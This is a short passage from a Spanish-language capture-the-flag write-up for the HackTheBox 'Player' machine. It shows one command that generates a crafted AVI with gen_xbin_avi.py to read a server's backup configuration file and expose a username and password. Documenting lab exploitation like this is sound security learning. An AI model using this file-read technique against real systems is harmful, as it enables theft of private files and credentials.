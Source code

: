 ```null
file 1821016771.avi
1821016771.avi: RIFF (little-endian) data, AVI, 256 x 240, 25.00 fps, video: FFMpeg MPEG-4
```

Sin embargo, al abrirlo con un reproductor de vídeo, como puede ser ```VLC Media Player```, partes del archivo se leakean por imágenes

<img src="/writeups/assets/img/Player-htb/8.png" alt="">

Debido a un ```Information Disclosure``` que se acontencía anteriormente en un error, conseguí una ruta de backups. Miro a ver en que consiste

```null
python3 gen_xbin_avi.py file:///var/www/backup/service_config backup.avi
```

Puedo ver un usuario y contraseña

<img src="/writeups/assets/img/Player-htb/9.png" alt="">
